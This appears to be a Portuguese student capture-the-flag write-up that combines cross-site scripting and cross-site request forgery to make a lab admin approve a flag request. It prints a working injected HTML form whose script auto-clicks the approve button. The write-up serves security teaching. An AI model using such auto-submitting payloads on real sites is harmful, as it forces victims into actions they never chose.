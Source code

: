 # CTF Semana #6 (XSS + CSRF)

## Recolha de informação

Começamos por aceder à página  **http://ctf-fsi.fe.up.pt:5004**:  

<img src="../screenshots/ctf6/user_page.png" alt="User page">

Ao clicar no botão *submit*, verificamos que o administrador é redirecionado para a página **http://ctf-fsi.fe.up.pt:5005**, onde pode aceitar ou rejeitar os pedidos efetuados:

<img src="../screenshots/ctf6/admin_page.png" alt="Admin page">

Como o pedido é aceite quando *Give the flag* é clicado, inspecionamos o botão:

```html
<form method="POST" action="/request/504cc7cb360087019995001417c1c577a59d1012/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```

Analisando o código html, concluimos que há um redirecionamento para a página **http://ctf-fsi.fe.up.pt:5005/request/request_id/approve**, onde o *request_id* corresponde ao id do pedido atual.

### Reconhecimento da vulnerabilidade

Neste desafio, exploramos duas técnicas diferentes:

- **Cross-site Scripting** : injetar código em input do utilizador, nomeadamente no input presente na página **http://ctf-fsi.fe.up.pt:5004**;

- **Cross-site Request Forgery** : numa página com uma dada origem (request page), fazer pedidos a uma página numa origem diferente (admin page).

Combinando estas duas técnicas, conseguimos obter a flag se injetarmos código no input do utilizador de modo a que o botão *Give the flag* seja clicado, levando a um redirecionamento para a página **http://ctf-fsi.fe.up.pt:5005/request/request_id/approve**.


### Exploração da vulnerabilidade

Usando javascript, modificamos o form para que o botão fosse efetivamente clicado:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/504cc7cb360087019995001417c1c577a59d1012/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```

Inserindo este código, verificamos que não temos permissão para aceder ao url da ação do form, uma vez que não somos admins:

<img src="../screenshots/ctf6/error_page.png" alt="Error page">

Assim sendo, impedimos o redirecionamento do nosso lado, forçando a que este seja feito pelo admin. Para tal, desabilitamos o javascript no nosso browser:

<img src="../screenshots/ctf6/javascript.png" alt="Javascript page">

Submetendo novamente o form, somos redirecionados para página correta:

<img src="../screenshots/ctf6/correct_page.png" alt="Correct page">

Como o javascript foi desativado, é necessário fazermos reload da página manualmente:

<img src="../screenshots/ctf6/flag.png" alt="Flag page">

Por fim, obtivemos a flag pedida.

